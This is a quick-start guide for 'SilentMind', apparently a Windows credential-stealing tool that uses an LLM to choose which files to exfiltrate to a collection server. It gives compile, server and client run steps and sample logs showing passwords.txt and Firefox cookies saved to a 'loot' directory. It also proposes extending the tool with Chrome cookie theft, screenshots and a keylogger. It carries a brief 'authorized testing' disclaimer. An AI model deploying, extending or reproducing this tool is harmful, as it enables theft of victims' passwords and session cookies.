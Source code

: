 # SilentMind Quick Start Guide 🚀

Get SilentMind up and running in 5 minutes!

## Prerequisites

- **macOS** (for compilation and server)
- **Windows VM** (for client execution)
- **Python 3.7+**
- **mingw-w64** (for cross-compilation)

## Step 1: Setup (2 minutes)

```bash
# Clone and navigate
git clone https://github.com/yourusername/SilentMind.git
cd SilentMind

# Install dependencies
pip3 install -r requirements.txt

# Configure environment
cp .env.example .env
# Edit .env with your API keys
```

## Step 2: Compile (1 minute)

```bash
# Cross-compile for Windows
./compile_windows.sh

# Verify compilation
ls -la silentmind.exe
```

## Step 3: Run Server (1 minute)

```bash
# Start the server
python3 app.py

# You should see:
# * Running on http://0.0.0.0:8000
```

## Step 4: Run Client (1 minute)

```bash
# Copy silentmind.exe to Windows VM
# Run on Windows VM
silentmind.exe

# Check loot directory
ls -la loot/
```

## Expected Output

### Server Logs
```
== [DECISION API HIT] ==
[LLM DECISION RAW]: {"exfiltrate": ["passwords.txt"], "reasons": {...}}
[+] Exfiltrated file saved to loot/20250909-092732__passwords.txt (14 bytes)
[+] Decrypted file saved to loot/20250909-092732__passwords.recovered.txt
```

### Client Output
```
[+] Scanning C:\Users\...\Documents\
[+] Found 3 files
[+] Exfiltrating passwords.txt
[+] Firefox cookies extracted successfully
```

### Loot Directory
```
loot/
├── 20250909-092732__passwords.txt          # Encrypted
├── 20250909-092732__passwords.recovered.txt # Decrypted
├── 20250909-092732__firefox_cookies.txt    # Encrypted
└── 20250909-092732__firefox_cookies.recovered.txt # Decrypted
```

## Troubleshooting

### Compilation Issues
```bash
# Install mingw-w64
brew install mingw-w64

# Check SQLite files
ls -la sqlite3.*
```

### Server Issues
```bash
# Check Python dependencies
pip3 install -r requirements.txt

# Check .env file
cat .env
```

### Client Issues
```bash
# Check server IP in main.c line 165
# Ensure Windows VM can reach server
ping 192.168.1.12
```

## Demo Mode

```bash
# Run the demonstration script
./demo.sh

# This will:
# - Create demo files
# - Show project structure
# - Explain workflow
# - Display sample output
```

## Next Steps

1. **Customize** - Modify server IP, add more file types
2. **Enhance** - Add Chrome cookies, screenshots, keylogger
3. **Deploy** - Use in red team exercises
4. **Contribute** - Submit improvements and features

## Security Note

⚠️ **Use only for authorized testing and educational purposes!**

---

**Need help?** Check the full [README.md](README.md) or [Architecture](ARCHITECTURE.md) documentation.
